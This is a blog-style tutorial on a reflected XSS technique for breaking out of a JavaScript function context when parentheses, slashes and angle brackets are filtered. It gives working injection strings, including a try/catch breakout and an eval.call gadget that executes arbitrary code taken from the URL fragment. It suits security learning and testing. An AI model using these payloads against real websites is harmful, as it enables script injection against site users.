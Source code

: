 ```yaml
---
layout: post
title: "Breaking out of a function context without () and // for XSS"
---
```


Let's say you've found something that could lead to relfect xss. You can inject unescaped characters in a piece of javascript on a page like:


{% highlight html linenos %}
...
<script>
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/INJECTION_HERE';
            someMoreCode;
        }
        //...
    });
</script>
...
{% endhighlight %}

but you cannot use `(`, `)`, `/`, `<`, `>` and new lines. This actually can happen if our entry point is a part of url's path like `https://www.example.com/foo/OUR_INPUT_HERE/bar/`. In such conditions, we cannot get out of `<script>` and jquery's `$(...)`. So what do we do?

## Getting out of foo ...

First, let's get out of `foo` function. This one is pretty simple and obvious. All we have to do is to inject:

{% highlight text %}
'} alert`1` - '
{% endhighlight %}

but then we get:
{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1` - '';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

Closing bracket on line 8 breaks the code inside `$(function () {...})` and therefore our `alert` is not being executed. We need to do it a little bit smarter.

## ... without braking everything else

So, we need to put something after our `alert` to make the closing bracket fit. Maybe let's add `function bar() {`?
<br>
<div style="text-align: center; opacity: .8"> but we cannot use ()'s.</div>
<br>
So maybe we can just open `{` to get an [object literal](https://www.dyn-web.com/tutorials/object-literal/)?
<br>
<br>
<div style="text-align: center; opacity: .8">Inside an object literal only key:value pairs are allowed and we have bunch of code in the following lines</div>
<br>
<br>
Ok. So what kind of javascript creature has an opening `{`, no `()`'s and code inside?
<br>
<br>
<div style="text-align: center; opacity: .8">
The try...catch statement!
</div>
<br>
<br>
Great! When we use something like:

{% highlight text %}
'} alert`1`; try {} catch {'
{% endhighlight %}

we end up with:

{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1`; try {} catch {'';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

which is valid javascript code and therefore our `alert` fires!

## But how do we execute anything more meaningful than an alert?

As I've mentioned, we are not allowed to use `()` which makes creating payloads a bit tricky. To get around this, we can use the following trick. First, we inject this in our entry point:

{% highlight javascript %}
eval.call`${document.location.hash.substr`1`}`
{% endhighlight %}

and then we put our payload in url's [fragment identifier](https://en.wikipedia.org/wiki/Fragment_identifier) where all characters are allowed.

For example:

{% highlight text %}
https://www.example.com/foo/eval.call`${document.location.hash.substr`1`}`/bar/#yourPayloadHere()
{% endhighlight %}

Of course, we need to url encode `eval.call...` to make it work.


<br>
<br>
Happy hunting!
